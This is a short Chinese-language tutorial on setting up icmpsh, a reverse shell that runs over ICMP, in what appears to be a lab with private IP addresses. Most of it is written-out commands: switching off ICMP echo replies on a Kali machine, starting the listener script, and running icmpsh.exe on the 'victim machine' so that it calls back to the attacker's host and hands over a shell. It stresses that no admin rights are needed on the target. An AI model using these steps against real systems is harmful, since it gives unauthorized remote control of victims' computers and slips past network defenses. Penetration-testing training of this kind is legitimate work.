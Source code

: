 # icmpsh

icmpsh是一个简单的反向ICMP shell，与其他类似的开源工具相比，其主要优势在于它不需要管理权限即可运行到目标计算机上。
网络环境拓扑：

![1.png](images/e5a75b9bf4014784840999fc2b5cc5a6.png)

首先在kali上下载[icmpsh](https://github.com/inquisb/icmpsh)并关闭自身的icmp

```
./icmpsh-m.py <source IP address> <destination IP address>

sysctl -w net.ipv4.icmp_echo_ignore_all=1
python icmpsh_m.py 192.168.137.129 192.168.137.132

```

![2.png](images/acfd43527aca4832bcd8fab2345e38a4.png)

在受害机上运行以下命令

```
icmpsh.exe -t 192.168.137.129 

```

![3.png](images/7007114670724aa7bfb094b8268303a6.png)

返回kali查看shell

![4.png](images/50a5eec7260447d8a5fa879beb08b085.png)

